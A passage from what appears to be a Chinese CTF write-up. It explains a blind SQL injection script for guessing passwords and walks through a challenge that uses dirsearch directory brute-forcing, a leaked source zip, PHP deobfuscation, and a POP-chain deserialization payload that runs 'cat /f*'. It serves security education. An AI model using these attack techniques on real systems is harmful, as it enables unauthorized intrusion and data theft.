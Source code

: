    综上所述，每次循环都会构造一个包含 SQL 注入代码的 payload，该代码用于从数据库中逐个获取密码的字符，并根据条件判断是否正确，从而实现密码猜解的过程。

6. 发送构造的 payload 作为用户名 (`uname`) 和一个随意的密码 (`psw`) 给目标网站。

7. 使用 `try-except` 结构捕获请求可能的超时异常，以避免因为超时而中断程序。

8. 如果请求成功，表示当前尝试的字符是密码中的一部分。程序将该字符添加到 `res` 变量中，并打印出当前已获取的密码。

9. 如果没有找到正确的字符，则继续内层循环。

10. 当找到密码的每个字符后，程序会打印出完整的密码

## 总结

> sql注入居然有代码！
>
> sql盲注脚本

# 雏形系统

## 题目描述

今天是公司里的工程师小王被裁员的日子，但小王并没有闲着。在离开之前，他突发奇想，决定留下一份特别的礼物给公司，于是他设计了一个登录页面的雏形

## 解题

1. burpsuit抓包登录无果

2. dirsearch爆破一下目录

   ```shell
   dirsearch -u http://challenge.qsnctf.com:32147/ -e all
   ```

3. 发现/www.zip目录

   <img src="https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240411110717096-891707649.png" alt="image-20240411110718534" width="300" />

4. zip中得到两个文件，txt无用，PHP内容如下

   <img src="https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240411111532623-483323211.png" alt="image-20240411111535476" width="300" />

5. 这道题用到的是`phpjm的混淆内容还原`，大致操作步骤理解为看到下边类似qsnctf.php文件类型的代码，需要你还原一下原来的代码长什么样子，具体操作方法有三个“手动解混淆”，“debug解混淆”，“编写脚本”。

   操作讲解：https://forum.butian.net/share/1476

6. 得到原来的代码后，配POP链

   ```php
   <?php
   class shi{}
   class wo{}
   class Demo{}
    
   $c=new Demo();
   $b=new shi();
   $a=new wo();
   $a->sex='boy';
   $a->age='eighteen';
   $a->intention=$b;
   $b->next=$c;
   $b->pass='cat /f*';
   echo serialize($a);
   #运行结果
   O:2:"wo":3:{s:3:"sex";s:3:"boy";s:3:"age";s:8:"eighteen";s:9:"intention";O:3:"shi":2:{s:4:"next";O:4:"Demo":0:{}s:4:"pass";s:7:"cat /f*";}}
   ```

